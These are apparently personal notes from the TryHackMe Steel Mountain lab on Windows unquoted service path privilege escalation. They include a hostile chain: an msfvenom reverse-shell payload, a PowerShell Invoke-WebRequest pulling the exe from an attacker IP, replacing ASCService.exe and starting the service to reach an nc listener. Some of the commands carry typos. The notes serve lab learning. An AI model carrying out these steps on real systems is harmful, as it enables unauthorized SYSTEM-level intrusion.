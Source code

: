 # TryHackMe-Steel-MountainWhat in the world is Unquoted Service Path?
When a service is created whose executable path contains spaces and isn’t enclosed within quotes, leads to a vulnerability known as Unquoted Service Path which allows a user to gain SYSTEM privileges (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is).
In Windows, if the service is not enclosed within quotes and is having spaces, it would handle the space as a break and pass the rest of the service path as an argument.

From <https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae> 

![Image-steel]()









Using PowerUp.ps1 script to enumurate the windows system. 





Ran Into some erros because we are using the PowerShell.

Fixed!
THINGS LEARNT:
	1. Msfvenom: generate reverse_shell, 
	2. Metasploit's powershell_shell may not work with "sc". Instead, I promoted the command "sc stop AdvancedSystemCareService9" in to the regular CMD shell. And it finally stopped the service. And so is the "copy ASCService.exe "<PATH>" .
	3. Nc a listener in port specified in your payload with msfvenom.
	4. After "sc start AdvancedSystemCareService9" you will see a reverse shell in your terminal
	
	5. Cmd shell comand:  copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
	



	
	
#using without metasploit, I think it is a good practice to do because it is a very good example of work around when metasploit gets reject AV. 
	1. Things learned:
		a. Powershell -c "Invoke-WebRequest - FileOut xxxxxx http://<IP>/filename.exe
		b. Cmd shell: sc start | sc stop <SERVICE> 
Sc stop <SERVICE>. Powershell -c "Invoke-WebRequest -Outfiles ASCService.exe http://<IP>/ASCService.exe " 

Nc -lvp <PORT LISTENING FROM THE PAYLOAD>
Sc start <SERVICE>

